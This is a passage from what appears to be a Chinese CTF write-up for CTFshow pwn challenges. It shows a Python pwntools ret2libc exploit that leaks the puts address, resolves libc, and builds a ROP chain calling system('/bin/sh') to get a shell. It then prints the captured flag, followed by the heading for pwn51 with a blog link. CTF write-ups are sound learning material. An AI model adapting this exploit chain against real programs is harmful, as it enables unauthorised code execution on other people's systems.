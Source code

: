 ```python
payload += p64(rdix_addr) + p64(puts_got)
payload += p64(puts_plt) 
payload += p64(ctfshow_addr)

p.recvuntil(b'Hello CTFshow')
p.sendline(payload)

print(p.recv())
puts_addr = u64(p.recv(6).ljust(8,b'\x00'))

libc = LibcSearcher("puts",puts_addr)

libc_base = puts_addr - libc.dump('puts')

system_addr = libc_base + libc.dump('system')

binsh_addr = libc_base + libc.dump('str_bin_sh')

payload_exp = offset

payload_exp += p64(rdix_addr) + p64(binsh_addr)

payload_exp += p64(retx_addr) + p64(system_addr)

p.sendline(payload_exp)

p.interactive()
```



拿到flag：

```
ctfshow{c5b7d94a-39f8-4074-aa83-34be91f5132d}
```



## 51. pwn51

[CTFSHOW pwn51解题思路-CSDN博客](https://blog.csdn.net/jiopkd2/article/details/135874950)

I‘m IronMan



![image-20241102124051734](../_media/image-20241102124051734.png)
